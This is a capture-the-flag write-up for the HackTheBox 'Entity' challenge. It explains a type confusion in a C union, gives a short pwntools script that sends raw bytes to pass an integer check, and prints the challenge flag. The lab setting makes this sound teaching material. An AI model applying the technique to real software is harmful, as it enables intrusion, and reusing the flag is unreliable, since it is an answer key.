 # Entity
> Write-up author: vreshco

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7a7445d8-e950-4b71-aad7-ce24b2ecc65c)


## Lessons Learned:
1. Union Structure.
2. Type Confusion.

## DESCRIPTION:
This Spooky Time of the year, what's better than watching a scary film on the TV? Well, a lot of things, like playing CTFs but you know what's definitely not better? Something coming out of your TV!

## STEPS:
1. Given 3 files -> 64 bit ELF, the source-code and the fake flag.
2. Let's check the binary's protections.

> VULN -> No Canary Found, Partial RELRO.

![image](https://user-images.githubusercontent.com/70703371/233789347-e9cdc9bd-c428-4fa5-ae4e-0a776ba0a525.png)


3. Let's analyze the source-code, analyzing the main() function, we know there's 3 functions we need to pay attention at.

![image](https://user-images.githubusercontent.com/70703371/233789392-a3fca842-f0aa-4307-ac30-359de3b66f26.png)


4. Start by the `set_field` function, there's no bufferoverflow, the input stored at the buf variable shall saved to the DataStore.integer.

![image](https://user-images.githubusercontent.com/70703371/233789432-4830f805-62d5-4f6e-ad94-6c66fa270fdd.png)


5. Analyzing the `get_field()` function, it just printed out the value stored.

![image](https://user-images.githubusercontent.com/70703371/233789520-1c649a02-869a-43b4-a2c2-2be25f4ca4bf.png)


7. At the `get_flag()` function which is our goal here, it shall printed out the flag if the integer variable of DataStore struct holds 13371337.

![image](https://user-images.githubusercontent.com/70703371/233789582-6a60693f-09e3-4609-85fa-254dc931600e.png)


8. But the problem is, at the `set_field()` function, we need to bypass the if statement, to prevent the program exits and we can use the value stored to get the flag.

![image](https://user-images.githubusercontent.com/70703371/233790009-77b9bf15-c2f2-4f62-8fd9-66aa5bed083c.png)


9. Seems like we need to call T to fill the value and press C to get the flag.
10. Then it shall asked, if we press T, then it asks what data type we want to store.

![image](https://user-images.githubusercontent.com/70703371/233790291-79848056-6774-4455-839b-c95c2a40a1ef.png)


11. But if we press R before, it shall asks what data type stored that we want to print.
12. Anyway let's run the binary.

![image](https://user-images.githubusercontent.com/70703371/233790347-148172a5-66ce-4246-825c-4705537f0438.png)


13. Since it's comparing the integer value in order to get the flag, let's input integer then.

![image](https://user-images.githubusercontent.com/70703371/233790398-db8f1f92-f020-429c-b8ae-f69b8712f2bb.png)


14. Forgot that it quits right after it compared the integer.

![image](https://user-images.githubusercontent.com/70703371/233790412-f1c55d90-328d-43e4-abf3-d17f14ab7ae7.png)


15. Means we need to send strings and get the flag with it (?)

![image](https://user-images.githubusercontent.com/70703371/233790494-30cf174b-0d3f-45db-86ad-4796b5283703.png)


16. Yep it denies it, the only way to bypass this, we need to sends the hex or we can sends raw bytes.
17. Let's build the script.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './entity'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

p = flat([
    13371337
])

sh.sendlineafter(b'>> ',b'T')
sh.sendlineafter(b'>> ', b'S')
sh.sendlineafter(b'>> ', p)
sh.sendlineafter(b'>> ', b'C')

sh.interactive()
```

> TEST LOCALLY

![image](https://user-images.githubusercontent.com/70703371/233790667-7791fd76-a69b-4b32-8086-fe8b3d31d24e.png)


> TEST REMOTELY

![image](https://user-images.githubusercontent.com/70703371/233790697-e382b727-c64f-41ff-86fd-3971fcd8b3a3.png)


18. Got the flag!


## FLAG

```
HTB{th3_3nt1ty_0f_htb00_i5_5t1ll_h3r3}
```


